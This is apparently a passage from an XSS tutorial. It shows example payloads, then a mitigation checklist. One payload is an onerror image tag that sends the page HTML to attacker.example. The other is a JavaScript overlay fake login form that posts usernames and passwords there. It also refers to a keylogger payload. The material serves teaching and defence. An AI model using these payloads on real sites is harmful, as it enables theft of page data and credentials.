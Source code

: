 **Effect if executed:** keystrokes get periodically sent to the attacker's server — passwords, OTPs, messages typed into the page.

---

### 4) Exfiltrate full page HTML
```html
<img src="x" onerror="new Image().src='http://attacker.example/exfil?body='+encodeURIComponent(document.body.innerHTML)">
```

This will send the page HTML (including any data visible in the DOM) to attacker.example.

---

### 5) Simple phishing example
Attacker injects an overlay form that looks like the site's login and forwards input to the attacker:

```javascript
// Inject overlay login form (example)
var overlay = document.createElement('div');
overlay.innerHTML = '<form id="fake" action="http://attacker.example/collect" method="POST">' +
  '<input name="user"/><input name="pass" type="password"/>' +
  '<button type="submit">Log in</button></form>';
overlay.style.position = 'fixed';
overlay.style.top = '0';
overlay.style.left = '0';
overlay.style.right = '0';
overlay.style.bottom = '0';
overlay.style.background = 'white';
document.body.appendChild(overlay);
```

User sees a legit-looking form and may enter credentials — which are then sent to the attacker.

---

## Why modern browsers do not fully solve XSS
Browsers implement certain defenses (CSP, SameSite, HttpOnly cookies), but they can't fix application logic bugs or bad code patterns. Developer-side protections and careful server configuration are still required.

---

## Mitigation — Practical Checklist

### 1) Escape / Sanitize output
**Never** trust user input. Treat everything untrusted and escape before inserting into HTML.

Prefer using text APIs:
```javascript
// BAD
element.innerHTML = userInput;

// GOOD
element.textContent = userInput;   // renders text, not HTML
```
